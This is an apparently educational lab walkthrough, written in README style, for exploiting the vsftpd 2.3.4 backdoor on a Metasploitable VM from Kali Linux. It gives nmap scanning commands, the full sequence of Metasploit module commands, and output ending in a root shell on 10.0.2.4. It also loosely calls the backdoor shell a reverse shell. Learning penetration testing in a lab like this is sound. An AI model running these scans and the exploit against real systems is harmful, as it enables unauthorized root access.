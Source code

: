 
# FTP exploit (Kali Linux + Metasploitable)
In order to know, how a specific network is comprised of, `nmap <network>` can be run to discover all hosts in the given network. Ths allows us to target a chosen host.

How to scan a demo network (using a NAT network and two VM):
```
nmap 10.0.2.0/24
```
This command lists all hosts in a network. We select 10.0.2.4 as our target.

How to scan a host for specific applications running:
```
# the `sV` option adds the version of the service running.
# the `p` option contains a port range that is scanned.
nmap -sV -p 1-1000 10.0.2.4
```
This lists all tcp or udp applications running on the target. The data contains the port, if the the application is accessible, the name and version of the application.

Listed below is an example:
```
┌──(kali㉿kali)-[~]
└─$ nmap -sV -p 1-1000 10.0.2.4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-14 09:31 EDT
Nmap scan report for 10.0.2.4
Host is up (0.00046s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp  open  telnet      Linux telnetd
25/tcp  open  smtp        Postfix smtpd
53/tcp  open  domain      ISC BIND 9.4.2
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp open  rpcbind     2 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp open  exec        netkit-rsh rexecd
513/tcp open  login       OpenBSD or Solaris rlogind
514/tcp open  tcpwrapped
Service Info: Host:  metasploitable.localdomain; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
There are several interesting (outdated) versions running of well known applications. The first application is already vulnerable. It is a ftp service version 2.3.4, which contains a known vulnerability. The metasploit framework offers an exploit useable the create a reverse shell on the host running this exploitable version of ftp.

This starts the metasploit framework:
```
msfconsole
```

To exploit a our specifc version of ftp (2.3.4), we first need to determine the existing exploits in the metasploit framework. To achieve this, we can use the `search <service> <version>` command.
```
search vsftpd 2.3.4

msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

```
As mentioned before, this version of ftp is exploitable, resulting in returning an useable exploit.

This is how we start using this exploit:
```
use exploit/unix/ftp/vsftpd_234_backdoor
```
However, before we can continue, we need to set the host that is targetted by the exploit.

To check if the host was not set, you can enter the command `show options`. This display several variables, where the `RHOSTS` variable contains the targets.
```
show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)

```

We need to specify the target host via RHOSTS!! (10.0.2.4)
The variable is set via the `set <variable> <value>` command.
```
set RHOSTS 10.0.2.4
```
To start exploiting, the command `exploit` is entered.
```
exploit
```

We successfully msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.0.2.4:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.0.2.4:21 - USER: 331 Please specify the password.
[+] 10.0.2.4:21 - Backdoor service has been spawned, handling...
[+] 10.0.2.4:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.0.2.15:34955 -> 10.0.2.4:6200) at 2023-09-14 09:42:08 -0400

```

After entering this command, a reverse shell is opened.
You can check whether this worked with the 
`whoami` command, which may output root (therefore, you have full access to the system)
